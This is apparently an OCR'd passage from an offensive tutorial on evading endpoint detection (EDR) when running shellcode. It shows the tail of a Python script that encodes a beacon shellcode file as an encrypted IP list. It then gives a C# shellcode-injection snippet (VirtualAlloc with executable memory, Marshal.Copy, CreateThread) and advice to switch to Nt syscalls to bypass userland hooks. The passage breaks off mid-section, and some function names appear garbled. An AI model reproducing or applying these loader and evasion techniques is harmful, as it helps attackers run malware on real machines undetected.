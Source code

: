 ```
        print(f"[✅] Encrypted IP list saved to {output_file}")

    except Exception as e:
        print(f"[❌] Error: {e}")

if __name__ == "__main__":
    input_file = input("Enter the path to your shellcode file (e.g., beacon_x64.bin): ").strip()
    output_file = input("Enter the output file path (e.g., ips.txt): ").strip()
    
    shellcode_to_ip_list(input_file, output_file)
```

With our shellcode now properly obfuscated and encrypted. We can moved on to additional testing and development. 

---

## VI. Stealthy Execution: From Windows APIs to Syscalls

Once shellcode is generated and encoded, execution becomes the next battleground — and **EDRs watch closely**.

Classic API calls like `VirtualAlloc`, `WriteProcessMemory`, and `CreateThread` are **heavily monitored**. If you use them as-is, you will trigger detections.

This is where we pivot to **low-level syscalls** — techniques that mimic native OS behavior without ringing the EDR alarm bells.

### 🔻 Classic API Pattern (High-Risk)

```
csharp
IntPtr addr = VirtualAlloc(IntPtr.Zero, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, addr, shellcode.Length);
CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, out threadId);
```

---

### 🛡️ Improved Tactics: Nt Syscalls

These Win32 APIs are well-known and monitored through userland hooks. Your payload becomes loud, even if encoded.

Instead, use native syscall wrappers:

- NtAllocateVirtualMemory0
- NtWriteVirtualMemory0
- NtCreateThreadEx

These provide more stealth by bypassing userland hooks and calling directly into ntdll.dll functions.

Example strategy:
